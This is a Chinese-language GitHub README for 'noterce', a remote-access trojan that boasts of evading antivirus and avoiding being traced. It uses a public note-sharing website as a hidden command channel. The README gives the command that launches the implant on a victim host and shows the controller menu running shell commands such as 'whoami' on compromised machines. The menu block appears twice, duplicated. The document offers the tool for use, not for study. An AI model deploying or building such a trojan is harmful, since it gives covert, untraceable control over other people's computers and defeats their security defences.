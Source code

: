 # noterce
一种另辟蹊径的免杀执行系统命令的木马,通过https“公开笔记”网站来交互通信交互


## 优缺点

优点:
- 免杀
- 有效避免被溯源
- AES加密

缺点:
- 运行慢(命令执行需要等待30秒后才返回结果)
- 功能少

## 使用
client为控制端
server为被控制端


1. 在被控端运行被控端
- 被控端运行命令 key参数制定notekey admin参数执行主控 ：
./server --key notekey --admin ocis

2. 控制端刷新在线主机列表


```shell
0:主机名:[penetration]  note地址:[BpLnfgDsc3WD9F3qNfHK6a95jjJkwz]       notekey地址:[zhu1234554321zhu]


1.获取在线主机列表(不一定全)
2.执行主机命令(需要等待30秒)
3.删除主机(可能主机被控木马已被杀掉,列表不会自动删除,需要手动删除)
```


3.控制端执行命令
```shell
1.获取在线主机列表(不一定全)
2.执行主机命令(需要等待30秒)
3.删除主机(可能主机被控木马已被杀掉,列表不会自动删除,需要手动删除)

2
请输入note地址:BpLnfgDsc3WD9F3qNfHK6a95jjJkwz
请输入notekey:BpLnfgDsc3WD9F3qNfHK6a95jjJkwz
请输入shell命令:whoami
请等待30秒
jpass
```


```shell
1.获取在线主机列表(不一定全)
2.执行主机命令(需要等待30秒)
3.删除主机(可能主机被控木马已被杀掉,列表不会自动删除,需要手动删除)

2
请输入note地址:BpLnfgDsc3WD9F3qNfHK6a95jjJkwz
请输入notekey:BpLnfgDsc3WD9F3qNfHK6a95jjJkwz
请输入shell命令:whoami
请等待30秒
jpass
```

